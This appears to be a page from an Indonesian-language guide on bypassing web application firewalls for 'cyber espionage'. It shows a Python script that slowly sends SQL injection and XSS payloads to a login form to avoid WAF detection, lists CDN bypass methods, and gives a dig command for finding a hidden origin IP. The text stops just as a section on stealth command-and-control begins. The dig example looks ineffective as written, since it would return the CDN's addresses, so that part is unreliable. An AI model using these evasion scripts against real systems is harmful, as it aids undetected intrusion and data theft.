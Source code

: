 
## 🔹 1. Teknik Bypass WAF dalam Operasi Spionase Siber

Dalam operasi spionase siber, bypass WAF digunakan untuk **eksfiltrasi data rahasia tanpa deteksi**.  
**Metode utama yang digunakan:**  

1. **Low & Slow Attacks** → Mengirimkan payload dalam jumlah kecil untuk menghindari trigger WAF.  
2. **Multi-Stage Exploits** → Memecah payload menjadi beberapa tahap agar tidak dikenali sebagai serangan tunggal.  
3. **Fileless Attacks** → Mengeksekusi payload langsung dalam memori tanpa menyentuh disk (menghindari logging).  

**Contoh "Low & Slow Attack" di Python:**  
```python
import time
import requests

payloads = ["' OR '1'='1", "UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
target = "https://target.com/login"

for payload in payloads:
    response = requests.post(target, data={"username": "admin", "password": payload})
    print(f"Sent payload: {payload}")
    time.sleep(10)  # Delay antar-request untuk menghindari deteksi WAF
```

---

## ☁️ 2. Eksploitasi Infrastruktur Cloud & CDN untuk Bypass WAF

Banyak organisasi menggunakan **Cloudflare, AWS, atau Akamai** untuk melindungi infrastruktur mereka.  
Namun, ada metode yang dapat digunakan untuk melewati proteksi ini:

1. **Origin IP Discovery** → Menemukan IP asli server target untuk melewati WAF cloud.  
2. **CDN Cache Poisoning** → Memanipulasi cache server untuk menginjeksikan payload berbahaya.  
3. **HTTP Desync Attacks** → Mengeksploitasi perbedaan parsing antara WAF dan backend server.  

**Contoh Menemukan IP Asli dari Server Cloudflare:**  
```bash
dig +short target.com @1.1.1.1
```

---

## 🕵️‍♂️ 3. Stealth Command & Control (C2) untuk Operasi Jangka Panjang

Dalam operasi **Advanced Persistent Threats (APT)**, penyerang menggunakan **Command & Control (C2) server** untuk berkomunikasi dengan malware tanpa terdeteksi.  
**Teknik utama yang digunakan:**  
